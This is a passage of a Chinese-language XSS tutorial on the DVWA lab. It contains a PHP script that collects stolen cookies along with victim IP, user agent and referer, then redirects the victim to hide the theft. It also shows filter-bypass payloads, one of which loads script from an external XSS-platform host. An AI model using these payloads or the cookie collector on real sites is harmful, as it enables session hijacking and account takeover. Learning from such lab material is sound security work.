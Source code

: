 ![image-20200831171401476](/images/XSS/image-20200831171401476.png)

浏览器插件添加Cookie值并绕过登录

![image-20200831173056272](/images/XSS/image-20200831173056272.png)

接收Cookie的php文件

```php+HTML
<?php

$cookie = $_GET['cookie']; //以GET方式获取cookie变量值
$ip = getenv ('REMOTE_ADDR'); //远程主机IP地址
$time=date('Y-m-d g:i:s'); //以“年-月-日 时：分：秒”的格式显示时间
$referer=getenv ('HTTP_REFERER'); //链接来源
$agent = $_SERVER['HTTP_USER_AGENT']; //用户浏览器类型

$fp = fopen('cookie.txt', 'a'); //打开cookie.txt，若不存在则创建它
fwrite($fp," IP: " .$ip. "\n Date and Time: " .$time. "\n User Agent:".$agent."\n Referer: ".$referer."\n Cookie: ".$cookie."\n\n\n"); //写入文件
fclose($fp); //关闭文件

header("Location: http://www.baidu.com")//重定向到baidu，防止发现
?>
```

直接访问生成cookie.txt文件

![image-20200831183628978](/images/XSS/image-20200831183628978.png)

###### DVWA-Medium

中级和低级比较显示使用部分函数进行过滤。

```php
addslashes()				使用反斜线引用字符串
htmlspecialchars()	将特殊字符转换为 HTML 实体
str_replace()				子字符串替换
```

![image-20200901112252053](/images/XSS/image-20200901112252053.png)

抓包绕过

```shell
`<sc<script>ript>alert(/xss/)</script>`
大小写绕过
`<Script>alert(/xss/)</script>`
`</textarea>'"><Script src=https://webxss.top/xss/BjE4XZ?1598931992></script>`
```

弹窗检测

![image-20200901134156567](/images/XSS/image-20200901134156567.png)

![image-20200901134205736](/images/XSS/image-20200901134205736.png)
